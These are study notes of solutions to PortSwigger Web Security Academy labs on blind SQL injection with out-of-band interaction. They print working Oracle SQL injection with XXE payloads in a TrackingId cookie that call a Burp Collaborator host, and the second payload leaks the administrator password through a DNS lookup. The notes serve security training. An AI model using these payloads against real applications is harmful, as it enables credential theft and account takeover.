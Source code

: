 ```ad-done
title: Solution
1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the ``TrackingId`` cookie.
2. Modify the ``TrackingId`` cookie, changing it to a payload that will trigger an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows: 
~~~
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--.
~~~
The solution described here is sufficient simply to trigger a DNS lookup and so solve the lab. In a real-world situation, you would use Burp Collaborator client to verify that your payload had indeed triggered a DNS lookup and potentially exploit this behavior to exfiltrate sensitive data from the application. We'll go over this technique in the next lab.
```

## Blind SQL injection with out-of-band data exfiltration
Reference: https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration

```ad-hint
title: Quick Solution
This lab contains a blind SQL Injection vulnerability that has **no effect on the application's response**. For this reason an out-of-band interaction with an external domain must be triggered. I tried to use the ``--dns-domain`` option of ``sqlmap`` but it doesn't seems to work. That's probably because of my machine setup (Burp on WSL2 and sqlmap dockerized). For this lab skip to the solution.
```

```ad-done
title: Solution
1. Visit the front page of the shop, and use Burp Suite Professional to intercept and modify the request containing the ``TrackingId`` cookie.
2. Go to the Burp menu, and launch the Burp Collaborator client.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4. Modify the ``TrackingId`` cookie, changing it to a payload that will leak the administrator's password in an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows: 
~~~
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
~~~
5. Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side query is executed asynchronously.
6. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The password of the ``administrator`` user should appear in the subdomain of the interaction, and you can view this within the Burp Collaborator client. For DNS interactions, the full domain name that was looked up is shown in the Description tab. For HTTP interactions, the full domain name is shown in the Host header in the Request to Collaborator tab.
7. In your browser, click "My account" to open the login page. Use the password to log in as the ``administrator`` user.
```
